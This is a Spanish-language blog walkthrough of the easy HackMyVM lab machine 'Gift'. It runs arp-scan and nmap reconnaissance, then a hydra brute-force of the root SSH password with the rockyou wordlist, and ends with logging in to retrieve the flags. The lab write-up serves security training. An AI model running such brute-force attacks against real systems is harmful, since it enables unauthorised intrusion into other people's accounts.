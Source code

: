 ```yaml
---
title:      "Gift - HackMyVm"
excerpt:    "Comenzamos el blog resolviendo la primera máquina easy subida a la plataforma de HackMyVM. El creador nos indica en la descripción que es very easy, un regalo, lo comprobaremos... 😁"
toc:        true
toc_label:  "Tabla de contenidos"
toc_icon:   "key"
header:
  teaser: /assets/images/Gift/prev.png
  teaser_home_page: true
  icon: /assets/images/HMV.png
classes     : wide
categories:
  - HackMyVM
tags:  
  - Linux
  - Brute force
---
```


![](/assets/images/Gift/prev.png){: .align-center}

Comenzamos el blog resolviendo la primera máquina easy subida a la plataforma de HackMyVM. El creador nos indica en la descripción que es "very easy", un "regalo", lo comprobaremos... 😁


## Reconocimiento de Puertos

Comenzamos averiguando la IP de la máquina víctima:

`❯ sudo arp-scan -l | grep "PCS"`
~~~
192.168.0.25   08:00:27:c7:3f:a9 PCS Systemtechnik GmbH
~~~

Ahora realizamos el reconocimiento de puertos abiertos:

`❯ sudo nmap -p- -sS --min-rate 5000 --open -Pn -vvv -n 192.168.0.25`
~~~
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
~~~

Tenemos dos puertos abiertos, el puerto 22 (SSH) y el puerto 80 (HTTP).

Realizamos un escaneo más avanzado para obtener más información sobre estos puertos.

`❯ nmap -sCV -p22,80 192.168.0.25`
~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 2c:1b:36:27:e5:4c:52:7b:3e:10:94:41:39:ef:b2:95 (RSA)
|   256 93:c1:1e:32:24:0e:34:d9:02:0e:ff:c3:9c:59:9b:dd (ECDSA)
|_  256 81:ab:36:ec:b1:2b:5c:d2:86:55:12:0c:51:00:27:d7 (ED25519)
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (text/html).
~~~

Comprobamos qué contenido muestra el puerto 80:

`❯ curl -L http://192.168.0.25`
~~~
Dont Overthink. Really, Its simple.
   <!-- Trust me -->
~~~

> No parece ir la cosa por ahí, así que según esa pista trataremos de seguir por el otro puerto, SSH


## Fuerza bruta

Aplicaremos fuerza bruta sobre el usuario root por SSH:

`❯ hydra -l root 192.168.0.25 -P /usr/share/wordlists/rockyou.txt ssh`
~~~
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 14344223 to do in 1343:06h, 16 active
 [22][ssh] host: 192.168.0.25   login: root   password: simple
~~~

> BINGO, tenemos acceso vía SSH como root


`ssh root@192.168.0.25`

~~~
IM AN SSH SERVER
gift:~# ls
root.txt  user.txt
~~~

Y ahí tenemos las 2 flags, con las que concluimos esta primera máquina.

